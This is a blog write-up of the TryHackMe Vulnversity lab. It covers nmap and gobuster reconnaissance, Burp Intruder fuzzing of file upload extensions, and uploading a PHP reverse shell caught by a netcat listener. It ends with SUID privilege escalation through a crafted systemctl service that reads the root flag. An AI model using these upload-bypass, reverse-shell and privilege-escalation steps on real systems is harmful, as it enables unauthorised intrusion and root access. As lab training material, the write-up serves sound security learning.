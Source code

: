 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-01-17 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: false
---
```



<div class="flex-container">
  <script src="https://tryhackme.com/badge/34685"></script>
</div>


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.

For complete tryhackme path, refer the [link](https://4n3i5v74.github.io/posts/getting-started-with-cybersecurity-tryhackme/){:target="_blank"}


## Task 2 - Reconnaisance

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}{% raw %}nmap -Pn -T4 -sV --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Locating directories using Gobuster

Use these links as references.
- [Gobuster Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-gobuster){:target="_blank"}
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}{% raw %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endraw %}{% endcapture %} {% include code.html code=code %}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}{% raw %}curl http://<ip>:3333/<dir>/{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Compromise the webserver

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code %}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}{% raw %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endraw %}{% endcapture %} {% include code.html code=code %}
{% capture code %}{% raw %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endraw %}{% endcapture %} {% include code.html code=code %}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}{% raw %}eop=$(mktemp).service{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl link $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl enable --now $eop{% endraw %}{% endcapture %} {% include code.html code=code %}


Capture the flag from the manipulated output file.
{% capture code %}{% raw %}cat /tmp/output{% endraw %}{% endcapture %} {% include code.html code=code %}

